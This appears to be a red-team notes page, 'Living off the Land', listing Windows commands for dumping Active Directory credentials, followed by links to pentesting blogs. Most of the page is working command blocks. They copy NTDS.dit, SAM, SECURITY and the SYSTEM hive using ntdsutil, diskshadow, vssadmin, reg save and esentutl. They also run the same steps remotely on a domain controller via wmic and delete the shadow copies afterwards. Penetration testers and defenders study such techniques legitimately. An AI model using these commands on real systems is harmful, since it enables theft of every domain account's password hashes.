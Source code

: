 # Living off the Land

## 01 - Command Prompt

TODO: Include powershell cmdlets to convert some of the techniques below

The file can be found in the following Windows location:

`C:\Windows\NTDS\NTDS.dit`

### Install From Media (IFM)

```
C:\> ntdsutil.exe "activate instance ntds" "ifm" "create full c:\temp" quit quit

C:\> ntdsutil.exe "ac in ntds" "ifm" "cr fu c:\temp" q q

C:\> dir c:\temp
```

### DiskShadow

^c70a55

- Write down the diskshadow commands in a text file to automate the process.

```
C:\> mkdir C:\exfil

C:\> type C:\diskshadow.txt
set context persistent nowriters
add volume c: alias ShadowVolume
create
expose %ShadowVolume% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %ShadowVolume%
reset
```

- Then extract shadow file and SYSTEM from registry. Once two files are present go to [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/06 - Credential Access and Dumping/Windows/Active Directory/Volume Shadow Copy/01 - Manual/Unix Shell|section to use impacket to extract credentials via hashdump]].

```
C:\> diskshadow.exe /s c:\diskshadow.txt
C:\> reg save hklm\system c:\exfil\system.bak
C:\> dir c:\exfil
```

### VSSAdmin.exe

```
C:\> vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\extract.dit

C:\> vssadmin create shadow /for=C: 2>&1

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy 2>&1

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1

C:\> dir C:\ShadowCopy\

C:\> vssadmin delete shadows /for=C:
```

- Can be performed laterally via `wmic.exe`.

TODO: Perform kerberos ticket via WMIC

```
C:\> wmic /node:<domain_controller_IP> [/user:<DOMAIN>\<username>] [/password:<password>] process call create "cmd.exe /c vssadmin create shadow /for=C: 2>&1"

C:\> wmic /node:<domain_controller_IP> [/user:<DOMAIN>\<username>] [/password:<password>] process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy & \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1"

C:\> dir \\<domain_controller_IP>\C$\ShadowCopy\

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\NTDS.dit c:\Windows\Temp\NTDS.dit

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\SYSTEM c:\Windows\Temp\SYSTEM

C:\> wmic /node:<domain_controller_IP> [/user:<DOMAIN>\<username>] [/password:<password>] process call create "cmd /cvssadmin delete shadows /for=C: 2>&1"
```

### esentutl.exe

```
C:\> esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d c:\temp\security
esentutl.exe /y /vss C:\Windows\System32\config\SYSTEM /d c:\temp\SYSTEM
```

---
## References

- [Pentestlab Blog](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)

- [Active Directory Security: How Attackers Dump Active Directory Database Credentials](https://adsecurity.org/?p=2398)

- [Red Team Notes: Dumping Domain Controller Hashes Locally and Remotely](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration)

- [Dumping Domain Controller Hashes via wmic and Vssadmin Shadow Copy](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin)

- [DiskShadow: The Return of VSS Evasion, Persistence, and Active Directory Database Extraction](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)

- [Red Team Notes: Dumping SAM via Esentutl](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-sam-via-esentutl.exe)

- [Password Auditing: How to Extract and Analyse Domain User Passwords](https://www.surecloud.com/resources/blog/extract-analyse-domain-user-passwords)

- [Ultimate IT Security: Creating a shadow copy of ntds.dit and the SYSTEM file](https://www.ultimatewindowssecurity.com/blog/default.aspx?p=bbcddadf-677f-4f60-9d55-914f631c3d1a)

- [Netwrix: Extracting Password Hashes from the Ntds.dit File](https://blog.netwrix.com/2021/11/30/extracting-password-hashes-from-the-ntds-dit-file/)
